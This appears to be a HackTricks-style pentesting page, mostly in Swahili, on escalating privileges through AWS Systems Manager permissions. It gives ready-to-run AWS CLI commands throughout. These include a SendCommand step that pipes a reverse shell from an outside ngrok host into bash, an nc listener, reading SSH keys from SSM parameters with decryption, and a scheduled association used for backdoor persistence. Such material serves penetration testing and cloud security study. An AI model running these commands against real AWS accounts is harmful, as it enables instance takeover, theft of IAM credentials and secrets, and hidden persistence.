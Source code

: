 # AWS - SSM Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## SSM

Kwa taarifa zaidi kuhusu SSM angalia:

{{#ref}}
../../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/
{{#endref}}

### `ssm:SendCommand`

Mshambuliaji mwenye ruhusa **`ssm:SendCommand`** anaweza **kutekeleza amri kwenye instances** zinazokimbia Amazon SSM Agent na **kudhoofisha IAM Role** inayokimbia ndani yake.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Iwapo unatumia mbinu hii kuinua ruhusa ndani ya EC2 instance ambayo tayari imevamiwa, unaweza kukamata rev shell mahali hapa kwa kutumia:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Athari Inayowezekana:** Privesc ya moja kwa moja kwa EC2 IAM roles zilizoambatishwa kwa instances zinazoendesha SSM Agents.

### `ssm:StartSession`

Mshambulizi mwenye ruhusa **`ssm:StartSession`** anaweza **kuanzisha kikao kinachofanana na SSH katika instances** zinazoendesha Amazon SSM Agent na **kupata udhibiti wa IAM Role** inayokimbia ndani yake.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
> [!CAUTION]
> Ili kuanza kikao unahitaji **SessionManagerPlugin** imewekwa: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
>
> **Athari Inayowezekana:** Privesc ya moja kwa moja kwa EC2 IAM roles zilizounganishwa na instances zinazoendesha na SSM Agents.
>
> #### Privesc kwa ECS
>
> When **ECS tasks** run with **`ExecuteCommand` enabled** users with enough permissions can use `ecs execute-command` to **execute a command** inside the container.\
> Kulingana na [**the documentation**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) hii inafanywa kwa kuunda chaneli salama kati ya kifaa unachotumia kuanzisha amri ya “_exec_” na container lengwa kwa kutumia SSM Session Manager. (SSM Session Manager Plugin inahitajika ili hii ifanye kazi)\
> Kwa hivyo, watumiaji walio na `ssm:StartSession` wataweza **kupata shell ndani ya ECS tasks** ikiwa chaguo hilo limewezeshwa kwa kukimbia tu:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../images/image (185).png>)

**Athari Inayoweza Kutokea:** Privesc ya moja kwa moja kwa `ECS`IAM roles zilizoambatishwa kwenye running tasks zilizo na `ExecuteCommand` imewezeshwa.

### `ssm:ResumeSession`

Mshambuliaji aliye na ruhusa **`ssm:ResumeSession`** anaweza re-**start a SSH like session in instances** zinazokimbia Amazon SSM Agent zikiwa na hali ya kikao cha SSM **disconnected** na **compromise the IAM Role** inayokimbia ndani yake.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Athari Inayoweza Kutokea:** Privesc ya moja kwa moja kwa EC2 IAM roles zilizoambatanishwa na instances zinazoendesha zenye SSM Agents na sessions zilizokatika.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

An attacker mwenye ruhusa zilizotajwa ataweza kuorodhesha **SSM parameters** na **kusoma kwa clear-text**. Kwenye parameters hizi mara nyingi unaweza **kupata taarifa nyeti** kama SSH keys au API keys.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Potential Impact:** Pata taarifa nyeti ndani ya vigezo.

### `ssm:ListCommands`

Mshambulizi mwenye ruhusa hii anaweza kuorodhesha **amri** zote zilizotumwa na, kwa matumaini, kupata **taarifa nyeti** ndani yao.
```
aws ssm list-commands
```
**Athari Inayoweza Kutokea:** Kupata taarifa nyeti ndani ya command lines.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Mshambuliaji mwenye ruhusa hizi anaweza kuorodhesha zote **commands** zilizotumwa na **kusoma output** iliyotolewa, akiwa na matumaini ya kupata **taarifa nyeti** ndani yake.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Athari Inayoweza Kutokea:** Pata taarifa nyeti ndani ya matokeo ya mistari ya amri.

### Kutumia ssm:CreateAssociation

Mshambuliaji mwenye ruhusa **`ssm:CreateAssociation`** anaweza kuunda State Manager Association ili kutekeleza amri kiotomatiki kwenye EC2 instances zinazosimamiwa na SSM. Associations hizi zinaweza kusanidiwa zifanye kazi kwa vipindi vilivyowekwa, zikifanya ziwe zenyefaa kwa backdoor-like persistence bila interactive sessions.
```bash
aws ssm create-association \
--name SSM-Document-Name \
--targets Key=InstanceIds,Values=target-instance-id \
--parameters commands=["malicious-command"] \
--schedule-expression "rate(30 minutes)" \
--association-name association-name
```
> [!NOTE]
> Njia hii ya persistence hufanya kazi mradi EC2 instance inasimamiwa na Systems Manager, SSM agent inafanya kazi, na mshambuliaji ana ruhusa ya create associations. Haitegemei interactive sessions wala ruhusa wazi za ssm:SendCommand. **Muhimu:** Parameter ya `--schedule-expression` (kwa mfano, `rate(30 minutes)`) lazima iheshimu muda wa chini wa AWS wa dakika 30. Kwa utekelezaji wa haraka au mara moja, usitumie kabisa `--schedule-expression` — association itatekelezwa mara moja baada ya uundaji.

### Codebuild

Unaweza pia kutumia SSM kuingia ndani ya mradi wa codebuild unaojengwa:

{{#ref}}
../aws-codebuild-privesc/README.md
{{#endref}}

{{#include ../../../../banners/hacktricks-training.md}}
